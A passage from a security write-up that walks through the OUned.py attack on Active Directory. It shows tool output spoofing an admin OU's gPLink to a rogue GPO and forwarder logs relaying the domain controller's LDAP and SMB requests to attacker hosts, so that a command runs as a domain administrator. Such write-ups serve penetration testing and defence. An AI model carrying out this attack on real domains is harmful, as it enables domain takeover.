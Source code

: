 ```shell
[*] Searching the target OU '_ADMINS'.
[+] Organizational unit found - OU=_ADMINS,DC=corp,DC=com.
[*] Retrieving the initial gPLink value to prepare for cleaning.
[*] Initial gPLink is [].
[*] Spoofing gPLink to [LDAP://cn={7B7D6B23-26F8-4E4B-AF23-F9B9005167F6},cn=policies,cn=system,DC=OUNED,DC=corp,DC=com;0]
[+] Successfully spoofed gPLink for OU OU=_ADMINS,DC=corp,DC=com

=== WAITING (GPT REQUESTS WILL BE FORWARDED TO SMB SERVER) ===
[...Waiting...]
```

The next time the **adm-qroland** user performs a GPO update (by default, upon user logon and every 90 minutes with a randomized offset of up to 30 minutes), the attack scenario will unfold. **A****dm-qroland** will execute the `whoami` command whose output will be written to the `C:\output.txt` file. The **OUned.py** forwarder will log the LDAP and SMB traffic forwarding resulting from GPO application. Assuming the **adm-qroland** user is connected on the DC (**AD01-DC**, **192.168.123.10**) when updating their GPOs, the logs will look something like this:

```shell
[...]
=== WAITING (GPT REQUESTS WILL BE FORWARDED TO SMB SERVER) ===
[FORWARDER] Incoming connection from ('192.168.123.10', 65472) - client is querying its GPC (LDAP), forwarding to 192.168.125.245:389
[FORWARDER] Incoming connection from ('192.168.123.10', 65473) - client is querying its GPT (SMB), forwarding to 192.168.126.206:445
```

It is then possible to verify the successful command execution as the **adm-qroland** domain administrator on the **AD01-DC** machine.

![[Z Assets/Images/4e9c80a996c55bbbfd7a80ff4ad46469_MD5.webp]]

Confirmation of command execution by the target user object adm-qroland.



References: https://www.synacktiv.com/en/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory